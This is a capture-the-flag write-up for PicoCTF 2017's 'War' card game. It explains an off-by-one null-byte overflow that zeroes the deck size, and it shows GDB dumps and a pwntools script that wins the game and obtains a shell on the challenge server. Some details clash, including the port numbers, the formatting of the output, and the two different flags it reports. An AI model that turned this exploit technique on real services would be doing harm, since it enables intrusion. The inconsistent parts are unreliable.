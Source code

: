 # PicoCTF_2017: War

**Category:** Master
**Points:** 125
**Description:**

>Win a simple [Card Game](war). [Source](war.c). Connect on shell2017.picoctf.com:44698.

**Hint:**

>Bugs typically happen in groups. If you find one, what does it allow you to do?

## Write-up
Before I start, I would like to say that it took me 6 days for this challenge. For how surprisingly easy it was to solve at the end. Shame on me but now I shall redeem myself by shortening 6 days of agony to a writeup.

Firstly, we need to identify the bugs in this challenge, as it doesn't appear that there's anything buffer overflowable. By doing some rubber-ducking, we come across this function `readInput()`. I've done some rubber ducking here to give you a better view of things

    //Reads input from user, and properly terminates the string
    unsigned int readInput(char * buff, unsigned int len){ // For an example if betBuffer with len 8
        size_t count = 0;
        char c;
        while((c = getchar()) != '\n' && c != EOF){
            if(count < (len-1)){ // While count is 6 or less
                buff[count] = c;
                count++; // Count ++ means count becomes 7 here
            }
        }
        buff[count+1] = '\x00'; // Inputting a null byte to index 8? O.o <- THIS IS ARRAY OVERFLOW111!!!!11!1
        return count;
    }

Interesting, now we have the ability to erase one extra byte of anything after a buffer. Completely useless. Or is it? If we take a look at the two buffers that `readInput()` would read to, we come across these two buffers.

    char betStr[BETBUFFLEN];
    card * oppCard;

and
    
    char name[NAMEBUFFLEN];
    size_t deckSize;

Since we aren't too sure if the pointer for `oppCard` actually comes after the buffer in this scenario, let's target the `name` buffer. This calls for `GDB`.

First, let's try some input of just 31 bytes, to see a non-interrupted or overflowed memory region.

    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    0x601800 <gameData+128>:    0x00000000  0x00000000  0x41414141  0x41414141
    0x601810 <gameData+144>:    0x41414141  0x41414141  0x41414141  0x41414141
    0x601820 <gameData+160>:    0x41414141  0x41410000  0x1a000000  0x00000000
    0x601830 <gameData+176>:    0x00000000  0x00000000  0x1a000000  0x00000000

The memory is in big-endian for viewing pleasure. So, we see a bunch of `41`s, representing our `A`. This is very helpful, and we also see a `1a` right afterwards. `1a` in hex, also equates to `26` in decimal. The only thing that's `26` in the code, is `deckSize`. Great, that matches up with our code. Now let's try breaking the array by 1.

    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    0x601800 <gameData+128>:    0x00000000  0x00000000  0x41414141  0x41414141
    0x601810 <gameData+144>:    0x41414141  0x41414141  0x41414141  0x41414141
    0x601820 <gameData+160>:    0x41414141  0x41414100  0x00000000  0x00000000
    0x601830 <gameData+176>:    0x00000000  0x00000000  0x1a000000  0x00000000

Where's the `1a` now? Turns out, it's been completely overwritten by the null byte. What does this mean? Where's the flag? Well, if there's a null byte for decksize, this part of the code helps us.

    //TODO: Implement card switching hands. Cheap hack here for playability
    gameData.deckSize--;
    if(gameData.deckSize == 0){
        printf("All card used. Card switching will be implemented in v1.0, someday.\n");
        exit(0);
    }

So, in this event, when we try to play a card, the memory region breaks because `0x0000000000000000` minus `1` = `0xffffffffffffffff`. Win.

    0x601800 <gameData+128>:    0x00000000  0x00000000  0x41414141  0x41414141
    0x601810 <gameData+144>:    0x41414141  0x41414141  0x41414141  0x41414141
    0x601820 <gameData+160>:    0x41414141  0x41414100  0xffffffff  0xffffffff
    0x601830 <gameData+176>:    0x00000000  0x00000000  0x1a000000  0x00000000

Theoretically, this means we are free to keep playing, since we are only limited by 100 coins or deck size of `26` which is now astronomically too big. So let's try to keep betting 1 till something happens. After the initial `26` cards, we are now left with 0 cards and this happens.

```python
 from pwn import *
HOST, PORT = 'shell2017.picoctf.com',7253
r = remote(HOST, PORT)
r.recv()
username = b'\x03' * 100
r.sendline(username)
r.recv()
for i in range(60):
    r.sendline(b'01')
    log.info(r.recv())

r.sendline(b'40')
log.info(r.recv())
r.sendline(b'80')
log.info(r.recv())
r.sendline(b'160')
log.info(r.recv())
r.sendline(b'200')
log.info(r.recv())
r.interactive()
r.close()
```
```text
[*]    The opponent has a 0 of suit 0.
    You have a 0 of suit 0.
    You lost! :(

    You have 73 coins.
    How much would you like to bet?

Let's keep pushing. By now, we are accessing areas in the memory outside our actual decks, so we are bound to get crazy numbers like,

    How much would you like to bet?
    1
    The opponent has a 0 of suit 0.
    You have a 65 of suit 65.
    You won? Hmmm something must be wrong...
    Cheater. That's not actually a valid card.

    You have 48 coins.
    How much would you like to bet?
    1
    The opponent has a 0 of suit 0.
    You have a 65 of suit 65.
    You won? Hmmm something must be wrong...
    Cheater. That's not actually a valid card.

    You have 48 coins.
    How much would you like to bet?

Let's keep going,

    How much would you like to bet?
    1
    you bet 1.
    The opponent has a 0 of suit 0.
    You have a -1 of suit -68.
    You lost! :(

Woah, negative numbers! Suddenly,

    you bet 160.
    The opponent has a 0 of suit 0.
    You have a 13 of suit 30.
    You won? Hmmm something must be wrong...
    You actually won! Nice job
    
    You have 33622 coins.
    How much would you like to bet?
[*] Switching to interactive mode
you bet 200.

Bingo. Now let's try to recoup our losses shall we! (_Don't do this in real life, you will go bankrupt._)

    You have 22 coins.
    How much would you like to bet?
    22
    you bet 22.
    The opponent has a 0 of suit 0.
    You have a 9 of suit 2.
    You won? Hmmm something must be wrong...
    You actually won! Nice job

    You have 44 coins.
    How much would you like to bet?
    44
    you bet 44.
    The opponent has a 0 of suit 0.
    You have a 11 of suit 1.
    You won? Hmmm something must be wrong...
    You actually won! Nice job

    You have 88 coins.
    How much would you like to bet?
    88
    you bet 88.
    The opponent has a 0 of suit 0.
    You have a 11 of suit 3.
    You won? Hmmm something must be wrong...
    You actually won! Nice job

    You have 176 coins.
    How much would you like to bet?
    176
    you bet 176.
    The opponent has a 0 of suit 0.
    You have a 3 of suit 3.
12 of suit 3.
    You won? Hmmm something must be wrong...
    You actually won! Nice job

    You have 352 coins.
    How much would you like to bet?
    352
    you bet 352.
    The opponent has a 0 of suit 0.
    You have a 13 of suit 1.
    You won? Hmmm something must be wrong...
    You actually won! Nice job
    You won the game! That's real impressive, seeing as the deck was rigged...
    /bin/sh: 0: can't access tty; job control turned off
$    $ ls
    flag.txt
war
    war
    war_no_aslr
    xinetd_wrapper.sh
$    $ cat flag.txt
403e07a54ec83113feb1e18c94d65704
```

Therefore, the flag is `403e07a54ec83113feb1e18c94d65704    04ab44dab3330a7633d9956b789f2769

Therefore, the flag is `04ab44dab3330a7633d9956b789f2769`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEyOTIzNTA4MTQsLTEzMDk4MDE4ODldfQ
==
-->